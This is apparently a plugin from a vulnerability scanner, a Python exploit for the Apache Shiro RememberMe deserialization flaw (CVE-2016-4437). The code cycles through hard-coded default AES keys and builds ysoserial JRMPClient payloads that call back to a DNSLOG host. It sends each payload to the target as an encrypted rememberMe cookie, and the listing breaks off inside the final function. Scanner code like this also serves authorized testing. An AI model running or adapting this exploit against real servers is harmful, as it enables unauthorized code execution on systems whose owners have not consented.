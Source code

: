 ```python
def task(**kwargs):
    DL=kwargs.get("DL")
    payload_url=kwargs.get("payload_url")
    key=kwargs.get("key")
    url=kwargs.get("url")
    try:
        encryptor = AES.new(base64.b64decode(key), kwargs.get("AES_MODE"), kwargs.get("AES_IV"))
        base64_ciphertext = base64.b64encode(kwargs.get("AES_IV") + encryptor.encrypt(kwargs.get("file_body")))
        cookies = {"jeesite.session.id": "3f8a61ec-27e2-425c-9724-f96ba0c1e512",
                   "rememberMe": base64_ciphertext.decode()}
        requests.get(payload_url, cookies=cookies,  proxies=kwargs.get("proxies"), timeout=6, verify=False)
        time.sleep(5)
        if DL.result():
            Medusa = "{} 存在ShiroRememberMe反序列化命令执行漏洞(CVE-2016-4437)\r\n验证数据:\r\n漏洞位置:{}\r\n秘钥:{}\r\nHeaders请求头:{}\r\nDNSLOG请求值:{}\r\nDNSLOG数据:{}\r\n".format(
                url, payload_url, key, cookies, DL.dns_host(), DL.dns_text())
            _t = VulnerabilityInfo(Medusa)
            VulnerabilityDetails(_t.info, url, Uid=kwargs.get("Uid"),Sid=kwargs.get("Sid")).Write()  # 传入url和扫描到的数据
            WriteFile().result(str(url), str(Medusa))  # 写入文件，url为目标文件名统一传入，Medusa为结果
    except Exception as e:
        _ = VulnerabilityInfo('').info.get('algroup')
        ErrorHandling().Outlier(e, _)
        ErrorLog().Write("Plugin Name:" + _ + " || Target Url:" + url, e)  # 调用写入类传入URL和错误插件名
```

### medusa函数

```python
def medusa(Url:str,RandomAgent:str,proxies:str=None,**kwargs)->None:
    proxies=Proxies().result(proxies)
    scheme, url, port = UrlProcessing().result(Url)
    if port is None and scheme == 'https':
        port = 443
    elif port is None and scheme == 'http':
        port = 80
    else:
        port = port
    ExpClass = "JRMPClient"
    CipherKey = ["kPH+bIxk5D2deZiIxcaaaA==","2AvVhdsgUs0FSA3SDFAdag==","3AvVhmFLUs0KTA3Kprsdag==","4AvVhmFLUs0KTA3Kprsdag=="
                 ]
    BLOCK_SIZE = AES.block_size
    PAD_FUNC = lambda s: s + ((BLOCK_SIZE - len(s) % BLOCK_SIZE) * chr(BLOCK_SIZE - len(s) % BLOCK_SIZE)).encode()
    AES_MODE = AES.MODE_CBC
    AES_IV = uuid.uuid4().bytes
    payload_url = scheme + "://" + url + ":" + str(port)
    YsoserialPath=GetToolFilePath().Result()+"ysoserial.jar"
    Pool=ThreadPool()
    try:

        for key in CipherKey:
            DL = Dnslog()
            popen = subprocess.Popen(["java", "-jar", YsoserialPath, ExpClass, DL.dns_host()], stdout=subprocess.PIPE)
            file_body = PAD_FUNC((popen).stdout.read())
            Pool.Append(task,url=url,file_body=file_body,key=key,AES_MODE=AES_MODE,AES_IV=AES_IV,payload_url=payload_url,DL=DL,proxies=proxies,Uid=kwargs.get("Uid"),Sid=kwargs.get("Sid"))
        Pool.Start(10)#启动线程池
    except Exception as e:
```